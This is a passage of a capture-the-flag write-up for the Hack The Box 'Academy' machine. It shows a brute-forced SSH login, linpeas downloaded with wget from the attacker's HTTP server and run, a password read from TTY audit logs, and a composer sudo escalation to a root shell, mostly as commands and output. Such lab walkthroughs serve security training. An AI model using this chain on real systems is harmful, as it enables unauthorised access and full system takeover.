    [22][ssh] host: 10.10.10.215   login: cry0l1t3   password: mySup3rP4s5w0rd!!
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-04 09:30:04
    
    

And we found that it was the cry0l1t3 user's password! So let's login via SSH as this user:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → ssh cry0l1t3@10.10.10.215
    The authenticity of host '10.10.10.215 (10.10.10.215)' can't be established.
    ECDSA key fingerprint is SHA256:4v7BvR4VfuEwrmXljKvXmF+JjLCgP/46G78oNEHzt2c.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.215' (ECDSA) to the list of known hosts.
    cry0l1t3@10.10.10.215's password:
    Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Fri 04 Jun 2021 07:38:32 AM UTC
    
      System load:             0.0
      Usage of /:              38.3% of 13.72GB
      Memory usage:            17%
      Swap usage:              0%
      Processes:               229
      Users logged in:         0
      IPv4 address for ens160: 10.10.10.215
      IPv6 address for ens160: dead:beef::250:56ff:feb9:3bbc
    
    
    89 updates can be installed immediately.
    42 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Wed Aug 12 21:58:45 2020 from 10.10.14.2
    $ id
    uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
    $ ls
    user.txt
    $ cat user.txt
    faXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user, let's run linpeas.sh on the box to see what are the possible privilege escalation paths:
    
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/89 ] [~/HTB/Academy]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.13/23 ] [ /dev/pts/89 ] [~/HTB/Academy]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    [term2]
    
    $ bash
    cry0l1t3@academy:~$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-04 07:40:46--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                   100%[====================================================>] 333.85K   689KB/s    in 0.5s
    
    2021-06-04 07:40:47 (689 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    cry0l1t3@academy:~$ chmod +x /tmp/peas.sh
    
    cry0l1t3@academy:~$ /tmp/peas.sh
    
    

` 

let linpeas.sh run and then as you scroll through the output you will stumble upon the **mrb3n** user's password from the TTY audit logs:

This is possible because we our user is in the adm group:
    
    
    cry0l1t3@academy:~$ id
    uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),**4(adm)**
    
    

So let's privesc to the **mrb3n** user using his password **mrb3n_Ac@d3my!**
    
    
    cry0l1t3@academy:~$ su mrb3n
    Password:
    $ bash
    
    mrb3n@academy:/home/cry0l1t3$ id
    uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
    
    mrb3n@academy:/home/cry0l1t3$ /tmp/peas.sh
    

We run linpeas once again as the mrb3n user, and we don't see much, but when we do **sudo -l** we are hinted towards using composer:
    
    
    mrb3n@academy:/home/cry0l1t3$ sudo -l
    [sudo] password for mrb3n:
    Matching Defaults entries for mrb3n on academy:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User mrb3n may run the following commands on academy:
        (ALL) /usr/bin/composer
    

Taking a look at [gtfobins](https://gtfobins.github.io/gtfobins/composer/) we get a privilege escalation path to the root user:
    
    
    mrb3n@academy:/home/cry0l1t3$ cd ..
    mrb3n@academy:/home$ TF=$(mktemp -d)
    mrb3n@academy:/home$ echo '{"scripts":{"x":"/bin/sh -i 0<****& 3 1>&3 2>&3"}}' >$TF/composer.json
    mrb3n@academy:/home$ sudo composer --working-dir=$TF run-script x
    PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
    PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
    Do not run Composer as root/super user! See https://getcomposer.org/root for details
    > /bin/sh -i 0<****& 3 1>&3 2>&3
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    ffXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get to the root user and print the root flag.

## **Conclusion**

Here we can see the progress graph :

